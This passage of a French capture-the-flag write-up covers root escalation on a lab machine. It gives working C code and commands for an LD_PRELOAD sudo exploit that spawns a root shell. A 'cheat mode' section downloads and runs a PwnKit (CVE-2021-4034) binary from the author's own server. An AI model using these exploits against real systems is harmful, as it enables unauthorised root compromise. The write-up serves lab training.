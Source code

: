 Bon, on peu pas écrire dans le dossier **/var/www/html/** donc pas de shell. On va regarder un peu ailleurs, on reviendra ici si on ne trouve rien d'autre ;)

On va test une autre approche.
Comme a on pu voir sur le résultat de la commande **sudo -l**, dans **secure_path** on retrouve **env_keep+=LD_PRELOAD**

On va donc test de créer un fichier **shell.c** qui contient ce code :
```cpp
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Ensuite, on le compile en fichier **.so**:
```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Puis, on l'execute :
```sh
webdeveloper@sky:~$ sudo LD_PRELOAD=/home/webdeveloper/shell.so sky_backup_utility
root@sky:/home/webdeveloper# id
uid=0(root) gid=0(root) groups=0(root)
```
Le flag ce trouve dans **/root/root.txt** comme d'hab :)

# Cheat mode :
Pour vous dire la vérité, cette room, je l'avais root directement avec le compte www-data :D.
La VM est vulnérable a l'exploit de Polkit CVE-2021-4034. Cette VM est bien plus vielle !

```
www-data@sky:/tmp$ wget {MON IP}/PwnKit
--2023-11-17 08:55:11--  http://{MON IP}/PwnKit
Connecting to {MON IP}:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.05s   

2023-11-17 08:55:11 (387 KB/s) - ‘PwnKit’ saved [18040/18040]

www-data@sky:/tmp$ chmod +x PwnKit
www-data@sky:/tmp$ ./PwnKit 
root@sky:/tmp#
```
